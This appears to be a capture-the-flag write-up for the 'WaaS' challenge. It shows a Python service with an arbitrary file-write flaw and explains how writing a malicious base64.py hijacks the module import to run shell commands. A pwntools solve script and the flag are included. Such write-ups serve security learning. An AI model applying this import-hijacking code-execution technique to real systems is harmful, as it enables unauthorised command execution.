 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
]
draft = true
+++

# Waas

**Description**: Writing as a Service!

**Authors**: NoobMaster + NoobHacker

**Points**: 491

**Solve**: 78

## Introduction

WaaS (Writing as a Service) allows us to overwrite a file on the system (after some input validation) and insert anything (until a newline is met) we want in it.

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

At first one may think of trying to bypass the input validation to perhaps rewrite the workings of the cat command or the challenge file itself, but this isn't possible.
Something very bizarre is the imported but unused `b64decode` from the `base64` module, which is what allows us to solve the challenge.
When python imports modules it looks in `sys.path`, which has a list of valid directories to import modules from. After a quick scan through the [python3 docs](https://docs.python.org/3/library/sys_path_init.html) we find out that the first directory it looks through is the same directory the file is in, this means that if we have a `base64.py` file in the directory then python will try to import a `b64decode` symbol from that file instead of the common known module.
One more feature of python's import behavior we can use is the that all the code in an imported module will be executed. For example if a file `test.py` has `print('Hello, World!')` and it can be executed (for example if it's at the lowest indentation level) then a file with `import test` will indeed see `Hello, World!` printed to `stdout`.
Therefore, since the `open` function with a `'w'` flag will create a file if it does not exist, we can simply create a file named `base64.py` and write our malicious code in it.
Something like this will do the trick:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

But the flag isn't our yet; we need to use the fact that the instance does not reset its files every time we connect to it, which means that our `base64.py` will remain in the directory for the lifetime of the instance. This means we simply need to reconnect to it and get our flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```
flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
